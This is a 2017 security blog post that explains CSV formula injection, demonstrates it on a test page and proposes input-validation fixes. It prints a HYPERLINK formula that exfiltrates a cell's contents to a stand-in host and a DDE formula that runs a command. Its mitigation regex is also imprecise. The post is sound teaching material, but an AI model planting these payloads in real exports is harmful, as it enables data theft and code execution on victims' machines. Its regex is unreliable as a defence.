 :slug: is-csv-secure
:date: 2017-12-22
:category: security-opinions
:tags: security, csv, code, web
:Image: csv.png
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Ingeniero de Sistemas, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.

image::csv-example.png[]

There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection". As https://www.owasp.org/index.php/CSV-Injection[OWASP] says, it occurs when websites embed
untrusted input inside CSV files, when a spreadsheet program is used to open a
CSV file, any cell starting with '*=*' is considered as a formula and crafted
formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

image::page-example.png[]

We put some normal data and nothing happens

image::normal-input.png[]
image::normal-result.png[]

But what happens if we put a formula like =2+5 in a field?

image::formula-input.png[]
image::formula-result.png[]

On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site

image::hyperlink-vuln.png[]

Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::first-warning.png[]
image::second-warning.png[]

And then the code execution

image::exec-example.png[]

The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

[source, javascript,linenums]
----------------
var regexp = new RegExp(/([=,-,+,@])/g);
----------------

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----------------
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----------------

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure

image::secure-input.png[]
image::secure-result.png[]

The source code of the page for testing can be found https://fluid.la/web/en/files/csvinjection.zip[here]

